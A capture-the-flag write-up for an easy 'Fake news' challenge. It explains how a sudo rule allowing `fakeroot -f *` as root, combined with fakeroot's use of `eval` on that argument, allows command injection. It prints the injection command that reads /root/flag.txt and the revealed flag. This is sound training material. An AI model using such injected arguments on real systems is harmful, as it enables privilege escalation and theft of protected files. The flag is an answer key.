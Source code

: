 # Fake news

## Challenge

> You can connect to the service with `ssh user@<ip>` and password 'user'
> Note: The flag is in /root/flag.txt
>
> Author: `Elweth`

- Category: Misc
- Difficulty: Easy

## Déploiement

```bash
cd src; docker compose up --build -d
```

## Writeup

Once connected we discover that the system is in read only.

We can not create file nowhere on the disk.

We can use `sudo -l` to list sudo privileges : 

```bash
$ sudo -l
Matching Defaults entries for user on 097e9eba615d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User user may run the following commands on 097e9eba615d:
    (ALL) NOPASSWD: /usr/bin/fakeroot -f *
```

We can run fakeroot as root, and specify a "fakedbin" `-f|--faked fakedbin` 

Fakeroot is open source, and we can discover the source code on the following link : 

- [https://github.com/mackyle/fakeroot](https://github.com/mackyle/fakeroot)

By reading the source code we discover the following the file which is used to parse fakeroot arguments : 

- [https://github.com/mackyle/fakeroot/blob/787d7578282afa0bbd0adcebdb1ee64801749bad/scripts/fakeroot.in#L9](https://github.com/mackyle/fakeroot/blob/787d7578282afa0bbd0adcebdb1ee64801749bad/scripts/fakeroot.in#L9)

As the sudo rules told us, we can use `-f` argument. The source code is : 

```bash
while test "X$1" != "X--"; do
  case "$1" in
    -l|--lib)
       shift
       LIB=`eval echo "$1"`
       PATHS=
       ;;
    -f|--faked)
       shift
       FAKED="$1"
       ;;
    
    ...
    ...

if test -n "$FAKEROOTKEY"
then
    fatal "FAKEROOTKEY set to $FAKEROOTKEY" \
          "nested operation not yet supported"
fi

unset FAKEROOTKEY
KEY_PID=`eval $FAKED $FAKEDOPTS $PIPEIN`
FAKEROOTKEY=`echo $KEY_PID|cut -d: -f1`
PID=`echo $KEY_PID|cut -d: -f2`

```

The application put our value in "FAKED" variable. Few lines later this value is used in "eval" command, allowing command injection.

We can use the following exploit to get the flag: 

```bash
$ sudo fakeroot -f '$(cat /root/flag.txt)'
/usr/bin/fakeroot: 1: eval: RM{Omg_Fakeroot_is_Fak3???}: not found
fakeroot: error while starting the `faked' daemon.
/usr/bin/fakeroot: 1: kill: Usage: kill [-s sigspec | -signum | -sigspec] [pid | job]... or
kill -l [exitstatus
``` 